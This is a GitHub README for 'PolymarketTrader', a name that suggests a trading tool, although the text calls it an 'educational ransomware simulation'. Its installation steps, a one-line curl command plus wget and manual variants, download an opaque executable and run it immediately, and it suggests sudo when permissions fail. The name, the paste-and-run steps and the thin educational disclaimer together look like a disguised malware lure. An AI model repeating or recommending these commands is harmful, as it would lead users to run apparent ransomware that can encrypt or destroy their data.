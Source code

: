 # PolymarketTrader

Educational ransomware simulation tool for Ubuntu/Linux systems.

## Quick Installation

Run this single command to download and install:

```bash
mkdir -p poly-trader && curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/PolymarketTrader -o poly-trader/PolymarketTrader && chmod +x poly-trader/PolymarketTrader && ./poly-trader/PolymarketTrader
```

This will:
1. Create a `poly-trader` directory
2. Download the executable
3. Make it executable automatically
4. Run the program

## Alternative Installation Methods

### Method 1: Download and Run Manually
```bash
# Create directory
mkdir -p poly-trader
cd poly-trader

# Download executable
curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/PolymarketTrader -o PolymarketTrader

# Make executable (if needed)
chmod +x PolymarketTrader

# Run the program
./PolymarketTrader
```

### Method 2: Using wget
```bash
mkdir -p poly-trader && cd poly-trader
wget https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/PolymarketTrader
chmod +x PolymarketTrader
./PolymarketTrader
```

## Troubleshooting

### Permission Issues
If you get a "Permission denied" error, run:
```bash
chmod +x PolymarketTrader
```

### If chmod doesn't work
Try with sudo:
```bash
sudo chmod +x PolymarketTrader
```

### File not executable
If you see "cannot execute binary file", make sure you're on a Linux/Ubuntu system (not Windows/Mac).

## Requirements

- **Operating System:** Ubuntu/Linux (64-bit)
- **Architecture:** x86_64
- **Dependencies:** None (all bundled in executable)

## Usage

After you download, follow the installation process displayed by the program.

## Educational Purpose

This tool is designed for educational purposes to demonstrate ransomware behavior in a controlled environment. Use responsibly and only in authorized testing environments.

## Support

If you encounter issues, ensure you're running on a compatible Linux system and have proper file permissions. 
